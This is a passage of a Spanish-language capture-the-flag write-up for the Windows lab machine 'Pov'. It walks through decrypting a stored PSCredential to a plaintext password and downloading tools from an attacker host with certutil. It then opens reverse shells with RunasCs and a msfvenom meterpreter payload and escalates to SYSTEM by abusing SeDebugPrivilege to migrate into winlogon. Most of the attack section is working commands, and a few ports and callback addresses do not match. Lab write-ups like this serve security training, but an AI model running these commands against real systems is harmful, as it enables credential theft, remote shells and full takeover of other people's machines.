
</p>

Se envía la consulta y... caerá la conexión interactiva en tu terminal de **Netcat**.

<p align="center">

</p>

### Shell como un "alaading"

#### Enumeración

```
whoami /priv
```

```

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Ningún, permiso me sirve.

Investigando, en la carpeta **Documents** me encuentro un archivo llamado **connection.xml**. Es un archivo PSCredential para alaading:

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```

#### Desencriptar contraseña

El nombre de usuario y la contraseña están encriptados con material de clave en el dispositivo donde se crearon. Esto significa que no puedo extraerlos y descifrarlos en mi computadora sin realizar una gran cantidad de pasos adicionales.

Estos comandos de PowerShell cargan credenciales cifradas desde un archivo XML local (`connection.xml`) y extraen en texto plano la **contraseña** (`f8gQ8fynP44ek1m3`) oculta en su interior.

```
$cred = Import-CliXml -Path connection.xml

$cred.GetNetworkCredential().Password
```

> f8gQ8fynP44ek1m3

#### Shell

Descargaré una copia de RunasCs.exe y la alojaré con un servidor web de Python en mi servidor. Luego, podré subirla a Pov:

```
certutil -urlcache -f http://10.10.14.188:81/RunasCs.exe RunasCs.exe
```

Ejecutando **RunasCs.exe**

```
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.14.6:444
```

Escuchando en `nc`

```
nc -lnvp 4445 
```

<p align="center">

</p>

## Escalada de Privilegios

### Shell como administrador

#### Enumeration

```
whoami /priv 
```

<p align="center">

</p>

Tener el privilegio **`SeDebugPrivilege`** en Windows permite a un usuario depurar y abrir cualquier proceso del sistema operativo (incluso los que pertenecen a usuarios con privilegios superiores, como `SYSTEM` o Administradores). Su impacto principal es que **facilita una escalada de privilegios total**: un atacante con este permiso puede robar tokens de acceso, inyectar código o volcar la memoria de procesos críticos (como `lsass.exe`) para obtener credenciales y tomar el control absoluto de la máquina.

#### Exploit SeDebugPrivilege

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.188 LPORT=9001 -f exe -o rev.exe
```

<p align="center">

</p>

Antes preparamos un puerto de escucha en Metasploit

```
msfconsole -q

set payload windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.14.188

set LPORT 5000

run 
```

<p align="center">

</p>

Luego, nos trasladamos el archivo **rev.exe** a la máquina objetivo:

```
certutil -urlcache -f http://10.10.14.188:81/rev.exe rev.exe
```

Luego, dentro de la máquina lo ejecutamos:

```
.\rev.exe 
```

<p align="center">

</p>

Obtenemos la shell desde Metasploit.

<p align="center">

</p>

Luego, para ser administrador hay que obtener el PID de un proceso que se esté ejecutando como `NT AUTHORITY\SYSTEM` haremos el siguiente comando

```
Get-Process | Where-Object {$_.SI -eq 1 -or $_.Name -eq "winlogon"} | Select-Object Id, ProcessName
```

<p align="center">

</p>

Volvemos como meterpreter **control z**

```
migrate 556

getuid
```

<p align="center">

</p>

Obtenemos la flag de root.txt

<p align="center">

</p>

## Conclusión

**Pov** es una máquina Windows de dificultad media cuyo compromiso inicia al descubrir el host `dev.pov.htb` y explotar un fallo de lectura de archivos en el parámetro `file` para extraer las claves `AES` y `SHA1` del archivo `web.config`; con estas claves se forja un payload en `VIEWSTATE` usando `ysoserial.exe` que concede ejecución remota de código (RCE) como `pov\sfitz`. Una vez dentro, se extraen las credenciales del archivo `connection.xml` para pivotar al usuario `pov\alaading` con `RunasCs.exe`, quien al contar con el privilegio `SeDebugPrivilege` permite migrar un proceso en Meterpreter hacia `winlogon.exe` para escalar privilegios a `NT AUTHORITY\SYSTEM` y tomar el control total del equipo.